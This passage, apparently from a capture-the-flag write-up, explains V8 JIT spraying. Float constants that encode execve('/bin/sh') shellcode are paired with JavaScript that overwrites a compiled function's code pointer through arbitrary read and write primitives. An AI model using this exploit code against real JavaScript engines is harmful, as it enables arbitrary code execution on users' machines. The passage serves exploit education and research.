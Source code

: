 Now, let's inspect the `code` and the generated assembly:

![](31.png)

The values of the floats are stored in the instruction bytes. Since x86 has variable length instructions, let's see what
happens if we disassemble from an address in the middle:

![](32.png)

It decodes to 2 instructions, then a jump below. The jump target is the next "gadget", and so on, The payload from an
article creates an `execve` to `/bin/sh`.

Now, we just need to overwrite `instruction_start` to `shellcode + 0x5a`:

```js

const exploit = () => {
    return [
        1.95538254221075331056310651818E-246,
        1.95606125582421466942709801013E-246,
        1.99957147195425773436923756715E-246,
        1.95337673326740932133292175341E-246,
        2.63486047652296056448306022844E-284
    ];
}

const exploitAddr = offsetof(exploit);
console.log(`exploit function at 0x${exploitAddr.toString(16)}`);

const exploitCodeAddr = (heapArbRead(exploitAddr + 0x8n) & 0xffffffff00000000n) >> 32n;
console.log(`exploit->code at 0x${exploitCodeAddr.toString(16)}`);

const exploitCodeInstrAddr = heapArbRead(exploitCodeAddr + 0x14n);
console.log(`exploit->code at 0x${exploitCodeInstrAddr.toString(16)}`);

const shellcodeAddr = exploitCodeInstrAddr + 0x5cn;
console.log(`shellcode at 0x${shellcodeAddr.toString(16)}`);

heapArbWrite(exploitCodeAddr + 0x14n, shellcodeAddr);

console.log("Wrote exploit");

exploit();

console.log("Shouldn't get here");
```

But, one more thing: we cannot use `v8` natives outside of `--allow-natives-syntax`. How can we make sure that our 
function is JIT compiled? By calling it lots of times:

```js
for (let i = 0; i < 100000; i += 1) {
    exploit(0);
}
```
